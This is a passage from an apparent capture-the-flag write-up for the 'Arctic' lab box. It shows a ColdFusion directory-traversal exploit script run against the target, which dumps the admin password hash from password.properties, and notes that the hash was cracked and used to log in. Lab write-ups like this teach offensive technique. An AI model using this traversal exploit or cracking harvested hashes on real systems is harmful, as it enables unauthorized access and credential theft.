 # Exploitation (1)

After copying the script, we are able to dump out the password hash of admin's password.

```bash
$ python 14641.py arctic.htb 8500 "../../../../../../../../ColdFusion8/lib/password.properties"  
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
------------------------------
...
```

Using `crackstation`, we are able to crack the `SHA1` hash.

![](/assets/images/arctic3.png)

With the password, we can login.

![](/assets/images/arctic4.png)
